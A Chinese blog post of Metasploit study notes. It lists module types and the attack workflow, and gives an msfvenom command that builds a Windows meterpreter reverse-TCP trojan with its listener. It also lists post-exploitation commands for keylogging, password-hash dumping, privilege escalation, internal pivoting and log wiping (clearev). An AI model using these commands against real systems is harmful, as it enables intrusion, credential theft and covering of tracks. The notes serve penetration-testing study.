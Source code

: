 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      MSF笔记（一）               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00 Matesploit简单认识：
> Metasploit框架是一个开源工具，方便用于渗透测试，具有很好的拓展性，一般我们在kali进行渗透测试的时候经常会用它，有一个标准的使用流程：
寻找攻击模块->选择漏洞的利用模块并且配置->如有需要使用编码模块中的一个编码技术绕过查杀->渗透攻击->后渗透

**模块学习：**
- 1.auxiliaries（辅助模块）：不会在测试者和目标主机之间建立访问，只负责执行扫描、嗅探、指纹识别等想相关功能以辅助渗透测试
- 2.exploit（渗透利用模块）：包含各种poc验证程序，各种攻击代码
- 3.payload（攻击载荷模块）：攻击载荷是指我们期望目标系统在被渗透攻击之后完成实际攻击功能的代码，我们在该模块可以自由的选择、传送和植入。攻击载荷也可能是简单的在目标操作系统上执行一些命令，如添加用户账号等、
- 4.post（后期渗透模块）：该模块主要用于在取得目标系统远程控制权之后，进行一系列的后渗透攻击动作，如获取敏感信息、实施跳板攻击等、
- 5.encoders（编码模块）：该模块在渗透测试中负责免杀，以防止被杀毒软件、防火墙、ids及类似的安全软件检测出来。

**渗透攻击步骤**
- 在使用msf渗透测试的时候，可以综合利用以上模块，对目标系统进行侦察并发动攻击，大致的不走如下所示：
- 1、扫描目标机系统，寻找可用漏洞
- 2、选择并配置一个漏洞利用模块
- 3、选择并配置一个攻击载荷模块
- 4、有必要的选择一个编码技术，用来绕过杀毒软件的查杀
- 5、exploit，进行渗透攻击
- msf发动攻击成功后会获取目标主机的shell，攻击机和目标机之间会建立一个shell连接，

**msf常用操作**
- search xxxx ：搜索xxxx攻击利用模块
- use xxxx：使用攻击模块
- 进入攻击模块之后：show options/payloads/targets/advanced/evasion/missing
- set/unset:设置参数、取消设置的参数
- run/exploit:auxiliary模块常用run，exploits模块常用exploit，攻击成功后拿到shell不会立马进入shell，而是以后台的进程存在。
- jobs/kill:在后台运行的job、kill某进程
- info/edit:获取模块的基本信息、编辑当前exploit模块的代码
- check/back：配置完成后，判断目标ip漏洞是否存在，只有少数模块存在check。back指的是返回上一层。
- 对于msf数据库的处理：db_status/db_connect/db_disconnect
- db_import /xx/xx/xx.xml:数据库导入   db_export -f xml /xx/xx/xx.xml数据库导出
- sessions 显示获得的shell连接会话 sessions -i id进入指定id的session

**获取meterpreter会话**
> meterpreter是msf的一个payload，目标执行之后我们会得到一个会话，和常见的shell类似，但是具备更加强大的功能，是执行后渗透的实施通道。

- **通过msfenvom 生成木马获取** 
- 1、常用命令：`msfenvom -p windows/x64/meterpreter_reverse_tcp lhost=本地ip lport=本地监听端口 -f exe -o ./re.exe
- 2、本地监听
-- use exploit/multi/handler
-- set payload windowx/x64/meterpreter_reverse_tcp
-- set lhost ip
-- set lport port
-- run
- 3、投放木马并执行，此时msf便会得到一个meterpreter会话
- **通过cmdshell升级成meterpreter**
-- 如果我们利用msf获得的是cmdshell，该机器适合进行后渗透的话，可以利用命令升级成meterpreter：`sessions -u id`
- **meterpreter常用命令**
- session命令：查看获得的会话，使用-i可以连接到指定id的meterpreter会话
- help/background:帮助信息、后台挂起
- linux命令
- shell：获取目标主机的远程命令行shell
- upload：上传文件到目标主机，ps：`upload re.exe C:\\windows\\system32\`
- download: 下载目标主机的文件到我们的主机上 ，ps：`download C:\\windows\\system32\\config.txt /root/`
- edit: 调用vi编辑器修改文件
- search：在目标机器上查找搜索文件，`ps: search -d c:\\ -f *.dll`
- portfwd :端口转发，`ps: portfwd add -l 1111 -p 8080 -r 192.168.250.176`将8080端口转发到1111端口
- getuid：查看meterpreter注入到目标主机的进程所属用户
- getpid：查看meterpreter注入到目标主机上的注入进程的进程号
- execute：执行命令：一般配合-H隐藏窗口来执行，-f 后面加上文件名。
- run getgui:-e开启远程桌面服务，添加账户为 -u username -p password
- getsystem：提权命令，获取系统最高权限
- keyscan：键盘记录：keyscan_start/keyscan_dump/keyscan_stop
- hashdump:获取系统账号密码
- route命令：路由相关命令，借助该命令我们可以进一步渗透内网，添加一条路由，然后借助当前机器作为跳板攻击内网的其他主机。
- clearev：入侵痕迹擦除，在渗透利用过程中难免留下日志等信息痕迹，所以最后要执行clearev命令后再逃跑。
- 利用后渗透模块的内容进行更多功能的渗透。


